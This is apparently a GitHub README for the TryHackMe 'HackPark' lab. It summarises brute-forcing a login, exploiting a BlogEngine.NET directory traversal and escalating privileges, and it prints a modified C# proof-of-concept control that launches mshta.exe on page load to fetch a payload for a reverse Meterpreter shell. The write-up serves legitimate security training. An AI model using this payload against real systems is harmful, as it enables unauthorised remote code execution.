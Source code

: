
<a href="https://tryhackme.com/room/hackpark" target="_blank"><img src="./banner.png" width="700px" /></a>

## Background

This room challenges its mock attackers to exploit vulnerabilities in a web application. It mainly involves brute forcing an admin login panel and exploiting a path traversial bug in the CMS. Post-exploitation has the attacker use [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) to work out privesc vulnerabilities to get SYSTEM-level privileges on the target system.

### Writeups

* https://infosecwriteups.com/tryhackme-writeup-hackpark-bd9c075c5262
* https://0x00sec.org/t/modified-cve-2019-6714-poc-to-execute-payload-via-mshta-exe/32728

### Materials

* [PostView.cs](./materials/PostView.cs): this is a custom payload that I wrote when exploiting a directory traversial vulnerability in a .NET content management system.

## Takeaways

I already published a writeup, so will not go into detail in how I went about rooting the target system. However, there are some interesting things to note: 

* Reverse image searches can be useful in finding information about the organisation or target system.
* [Burp Suite](https://portswigger.net/burp)'s intruder feature can be used to brute force username/password combinations.
* Modifying C# _proof-of-concepts_ can be helpful in exploiting the system.

The following is source code of my modified version of a payload used in a path traversial attack allowing me to get a reverse Meterpreter shell:

```c#
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);
        System.Diagnostics.Process payload = new System.Diagnostics.Process();
        payload.StartInfo.FileName = "mshta.exe";
        payload.StartInfo.Arguments = ""; // url to HTA with payload
        payload.StartInfo.UseShellExecute = true;
        payload.StartInfo.CreateNoWindow = true;
        payload.Start();
    }
    
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
/*
 * References
 * Cobb, D. (2019). BlogEngine.NET <= 3.3.6 Directory Traversal RCE. Exploit Database. Retrieved on Apr. 25, 2022 from: https://www.exploit-db.com/exploits/46353
 *
 */
``` 

